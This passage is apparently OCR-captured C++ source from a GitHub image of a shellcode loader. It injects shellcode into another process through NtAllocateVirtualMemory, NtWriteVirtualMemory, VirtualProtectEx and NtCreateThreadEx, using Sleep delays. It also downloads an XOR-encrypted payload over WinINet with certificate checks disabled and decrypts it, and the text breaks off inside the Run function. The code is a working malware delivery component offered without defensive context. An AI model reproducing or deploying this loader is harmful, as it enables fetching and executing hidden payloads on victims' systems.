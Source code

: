 ```c++

	NtAllocateVirtualMemory(pHandle, &BaseAddr, 0, &RegionSize, (MEM_RESERVE|MEM_COMMIT), PAGE_READWRITE);
	Sleep(10000);
	std::cout << "\n [+] The SC is in: " << BaseAddr << "\n";
	NtWriteVirtualMemory(pHandle, BaseAddr, sc, sc_size, 0);
	VirtualProtectEx(pHandle, BaseAddr, sc_size - 1, PAGE_EXECUTE_READ, &oldProtection);
	Sleep(10000);
	NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, pHandle, BaseAddr, nn, FALSE, NULL, NULL, NULL, NULL);
	
	WaitForSingleObject(hThread, INFINITE);

}
// Helper to download a file using WinINet
bool DownloadFile(const std::wstring& url, std::vector<BYTE>& outData) {
    HINTERNET hInternet = InternetOpenW(L"rexkyris", INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);
    if (!hInternet) return false;

    DWORD flags =
        INTERNET_FLAG_RELOAD |
        INTERNET_FLAG_NO_CACHE_WRITE |
        INTERNET_FLAG_SECURE|
        INTERNET_FLAG_IGNORE_CERT_CN_INVALID | 
        INTERNET_FLAG_IGNORE_CERT_DATE_INVALID;

    HINTERNET hFile = InternetOpenUrlW(hInternet, url.c_str(), NULL, 0, flags, 0);
    if (!hFile) {
        InternetCloseHandle(hInternet);
        return false;
    }

    BYTE buffer[4096];
    DWORD bytesRead = 0;

    while (InternetReadFile(hFile, buffer, sizeof(buffer), &bytesRead) && bytesRead > 0) {
        outData.insert(outData.end(), buffer, buffer + bytesRead);
    }

    InternetCloseHandle(hFile);
    InternetCloseHandle(hInternet);
    return true;
}

void XORDecryptEncrypt(std::vector<BYTE>& data, const std::string& key) {
    size_t keyLength = key.size();
    for (size_t i = 0; i < data.size(); ++i) {
        // XOR each byte of the data with the corresponding byte of the key
        data[i] ^= key[i % keyLength];  // Repeat the key if shorter than data
    }
}

void Run(std::wstring url, std::string xorKey)
{
    
    std::vector<BYTE> encryptedData;

    // Download the encrypted file
    if (!DownloadFile(url, encryptedData)) {
        std::cerr << "Failed to download encrypted file." << std::endl;
        exit(1);
    }
  
```
